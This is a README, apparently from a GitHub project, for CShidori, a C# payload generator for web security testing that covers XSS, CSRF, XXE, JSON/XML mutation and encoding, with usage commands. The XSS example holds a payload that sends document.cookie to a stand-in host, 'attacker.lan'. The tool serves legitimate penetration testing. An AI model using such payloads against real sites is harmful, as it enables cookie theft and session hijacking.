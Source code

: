 # CShidori

A C# "Thousand Birds" Payloads Generator

![](Intro.png)

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* Taisen: [Website](https://taisen.fr)

## Supported modes and payloads

* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Dump

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -o 5 -p test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe
```
### MSTEST
Test for Microsoft.VisualStudio.TestTools.UnitTesting
```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### Dump

```powershell
.\CShidori.exe -m dump
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
